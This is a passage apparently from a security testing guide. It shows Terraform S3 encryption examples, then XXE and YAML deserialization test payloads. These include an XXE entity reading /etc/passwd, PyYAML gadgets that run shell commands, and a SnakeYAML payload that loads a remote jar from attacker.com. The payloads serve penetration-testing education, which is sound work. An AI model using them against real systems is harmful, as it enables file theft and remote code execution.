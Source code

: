 ### **🆕 Infrastructure-as-Code Security**:
```terraform
# Terraform security testing
resource "aws_s3_bucket" "bad_example" {
  bucket = "my-bucket"
  
  # Missing encryption
  # Missing public access block
  # Missing versioning
}

# Good example
resource "aws_s3_bucket" "good_example" {
  bucket = "my-secure-bucket"
}

resource "aws_s3_bucket_server_side_encryption_configuration" "example" {
  bucket = aws_s3_bucket.good_example.id

  rule {
    apply_server_side_encryption_by_default {
      kms_master_key_id = aws_kms_key.example.arn
      sse_algorithm     = "aws:kms"
    }
  }
}
```

---

## **4. XML External Entities (XXE) + Modern Data Formats**

### **Traditional XXE Testing**
- **Step 1: Identify XML Parsers**: Look for endpoints that accept **XML** input.
- **Step 2: Test for XXE**: Send an XXE payload like `<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd">] >`.

### **🆕 YAML Deserialization Attacks**

#### **YAML Injection Payloads**:
```yaml
# Python PyYAML
!!python/object/apply:subprocess.check_output [['id']]
!!python/object/apply:os.system ['id']

# Ruby YAML
--- !ruby/object:Gem::Installer
i: x
--- !ruby/object:Gem::SpecFetcher
i: y

# Java SnakeYAML
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker.com/payload.jar"]]]]
```
